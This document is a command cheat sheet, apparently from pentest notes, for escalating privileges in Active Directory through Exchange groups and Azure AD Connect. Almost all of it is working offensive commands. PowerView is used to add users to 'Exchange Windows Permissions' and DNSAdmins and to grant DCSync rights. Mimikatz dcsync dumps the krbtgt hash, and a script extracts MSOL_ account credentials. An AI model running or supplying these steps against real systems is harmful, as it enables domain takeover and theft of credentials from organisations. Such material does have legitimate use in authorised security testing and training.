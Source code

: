 #### Enumerate if exchange groups exist
```
. ./Powerview.ps1
Get-DomainGroup *exchange* -Domain <DOMAIN>
```

#### Enumerate membership of the groups
```
Get-DomainGroupMember "Organization Management" -Domain <DOMAIN>
Get-DomainGroupMember "Exchange Trusted Subsystem" -Domain <DOMAIN>
```

#### If we have privileges of a member of the Organization Management, we can add a user to the 'Exchange Windows Permissions' group.
```
$user = Get-DomainUser -Identity <USER>
$group = Get-DomainGroup -Identity 'Exchange Windows Permissions' -Domain <DOMAIN>
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

#### Add permissions to execute DCSYNC
```
Add-DomainObjectAcl -TargetIdentity 'DC=<PARENT DOMAIN>,DC=<TOP DOMAIN>' -PrincipalIdentity '<CHILD DOMAIN>\<USER>' -Rights DCSync -Verbose
```

#### Execute DCSYNC
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<PARENT DOMAIN>\krbtgt /domain:<PARENT DOMAIN>"'
```

#### If we have privileges of 'exchange user', who is a member of the Exchange Trusted Subsystem, we can add any user to the DNSAdmins group:
```
$user = Get-DomainUser -Identity <USER>
$group = Get-DomainGroup -Identity 'DNSAdmins' -Domain <DOMAIN>
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

## Azure AD
#### Enumerate where PHS AD connect is installed
```
Get-DomainUser -Identity "MSOL_*" -Domain <DOMAIN>
```

#### On the AD connect server extract MSOL_ Credentials
```
.\adconnect.ps1
```

#### Run cmd as MSOL_
```
runas /user:<DOMAIN>\<USER> /netonly cmd
```
